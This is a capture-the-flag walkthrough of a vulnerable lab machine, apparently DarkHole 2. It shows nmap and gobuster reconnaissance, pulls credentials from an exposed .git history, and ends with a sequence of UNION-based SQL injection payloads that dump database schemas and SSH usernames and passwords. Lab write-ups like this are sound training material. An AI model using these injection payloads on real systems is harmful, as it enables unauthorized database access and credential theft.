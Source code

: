 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/104873e8-46e1-4264-a1e7-51389bc48a1e"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/de8e5575-0453-497e-80f7-9467daf35c28)

```bash
ping -c 1 192.168.1.210
```
![image](https://github.com/user-attachments/assets/88319795-5f50-45a4-b7e0-4a89fca4c012)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.210 -oG allPorts
```
![image](https://github.com/user-attachments/assets/caab3713-32f9-45cb-9347-4540c21e16df)

```bash
nmap -sCV -p22,80 192.168.1.210 -oN targeted
```
![image](https://github.com/user-attachments/assets/9d7977fb-b01e-4c8f-9237-8b3dcb959f48)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 22</h2>

![image](https://github.com/user-attachments/assets/fb033fd8-2155-4cbd-8e52-9f1a9a42d500)
![image](https://github.com/user-attachments/assets/df1662e7-8ff5-4ea0-9eb2-bd2c1f0f207f)
![image](https://github.com/user-attachments/assets/e7765820-701f-4ab2-bba6-afb011e37593)<br>
<br>
#### **This machine is a Ubuntu Focal**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/d42310cb-ab4b-46fe-8bf3-6754bf48e422)

``CTRL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/94f0d78a-3a61-48f3-b968-07132e49bc7a)
![image](https://github.com/user-attachments/assets/87d49f77-cc5a-4aa5-9daf-eb9186bd72ed)
![image](https://github.com/user-attachments/assets/c8ee583d-de18-4adf-ba69-4fabeb1977e3)<br>
<br>
#### **We found a web login**

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.210/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/dbad34e3-bd2f-4f82-922e-97e197aca627)
![image](https://github.com/user-attachments/assets/9821288a-4bc4-40c7-a197-5ee7129a8fde)
![image](https://github.com/user-attachments/assets/8660a7ea-4ec9-4510-87c1-4c3c5c0d98dd)
![image](https://github.com/user-attachments/assets/3216459f-0e6e-4f5b-a488-d0def89b5a41)
![image](https://github.com/user-attachments/assets/2d8a2c67-dfc0-4bde-bfc9-61546d49ea94)
![image](https://github.com/user-attachments/assets/e9754472-778d-4b38-aa5f-35641fe76548)

```bash
whatweb "http://192.168.1.210"
```
![image](https://github.com/user-attachments/assets/9897106f-25dd-4fda-8a3e-f2b6e8d2ef01)

### **.git**
![image](https://github.com/user-attachments/assets/75deb6fc-8d73-4be7-9e1b-afd111bdf1e7)
![image](https://github.com/user-attachments/assets/9a9828e5-b238-478c-8741-10275f16d3e8)
<br>
<br>
#### **Download content for analysis**
```bash
wget -r http://192.168.1.172/.git/
```
![image](https://github.com/user-attachments/assets/d7394a20-d0f7-4b50-af99-eecdee7674bb)

#### **Checking gitlog of the repository**
```bash
git log
```
![image](https://github.com/user-attachments/assets/967b793f-91c8-4ca7-a92a-8783711c90d6)

```bash
git log --oneline
```
![image](https://github.com/user-attachments/assets/7285dea1-a75d-4c84-9816-e2779fd60645)

```bash
git show a4d900a
```
![image](https://github.com/user-attachments/assets/d01f05b0-960f-492b-aa69-978889012c18)

#### **We finally have credentials**
User:    lush@admin.com<br>
Paswwd:  321

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

![image](https://github.com/user-attachments/assets/62bbcd1d-acd3-403d-bd08-3df3892d5cfe)
![image](https://github.com/user-attachments/assets/3be015c2-096e-4a02-a50e-eb939a87385b)
![image](https://github.com/user-attachments/assets/34a7d54f-cc17-4c3e-b134-e38095dd36e4)
![image](https://github.com/user-attachments/assets/c507dd9a-8222-4133-95ff-066ad61d0ef3)
![image](https://github.com/user-attachments/assets/c71a50cc-aa9c-4def-b4d4-91e10c90929b)

#### **intercepting with burp, to see how everything goes from behind**
```bash
burpsuite &> /dev/null & disown
```
![image](https://github.com/user-attachments/assets/6a77d54a-b163-436c-814f-960d9682f3f9)

#### **sending the captured information to the repeter**
``CTRL+R``<br>

![image](https://github.com/user-attachments/assets/d12cb967-dce8-4099-9fce-1f0861d767b7)
![image](https://github.com/user-attachments/assets/53c4bd44-77bc-480e-8af0-3954ba11a31a)

### **Showing database**
```SQLI
1' order by 6-- - 
```
![image](https://github.com/user-attachments/assets/1b46970d-4b91-416d-98db-7fff663a2d60)

```SQLI
2' union select 1,2,3,4,5,6-- -
```
![image](https://github.com/user-attachments/assets/3cf1d124-971d-48b7-8017-fe47deffd766)
![image](https://github.com/user-attachments/assets/52c76219-f1b9-4b99-be01-afda0eda509f)

```SQLI
2' union select 1,2,database(),4,5,6-- -
```
![image](https://github.com/user-attachments/assets/ffd5caa6-d457-4ee0-a720-2b5972fa8382)
![image](https://github.com/user-attachments/assets/3e4561d3-b8df-4c06-86a2-4d1b2fd9e999)

```SQLI
2' union select 1,2,schema_name,4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/bca85749-2efc-4ca5-8704-a07b3f55ba28)
![image](https://github.com/user-attachments/assets/b0eb9738-d9df-4578-b231-926d3325b115)

```SQLI
2' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/b45d280e-405c-467b-8ede-ad661c8e9a32)
![image](https://github.com/user-attachments/assets/add53760-26fd-4658-ba8b-2f8606805e2e)

### **Showing Tables**

```SQLI
2' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```
![image](https://github.com/user-attachments/assets/e0c9fafb-2b30-44a4-8e86-a1e07970a733)
![image](https://github.com/user-attachments/assets/24a07cab-0683-4896-a76a-3d7cbc7a32c9)

### **Showing Columns**

```SQLI
2' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name="ssh"-- -
```
![image](https://github.com/user-attachments/assets/6aac1ac1-bbfb-42a9-af96-1d3a18d82021)
![image](https://github.com/user-attachments/assets/11edc06f-1aa0-495e-a3c1-d4e162e49484)

### **Showing Content**
```SQLI
2' union select 1,2,group_concat(user,0x3a,pass),4,5,6 from ssh-- -
```
![image](https://github.com/user-attachments/assets/52cdcd81-f6bf-42cd-9f54-406291011e21)
![image](https://github.com/user-attachments/assets/06f014b1-d76b-43d4-a9d1-96481042e295)

User:    jehad<br>
Passwd:  fool
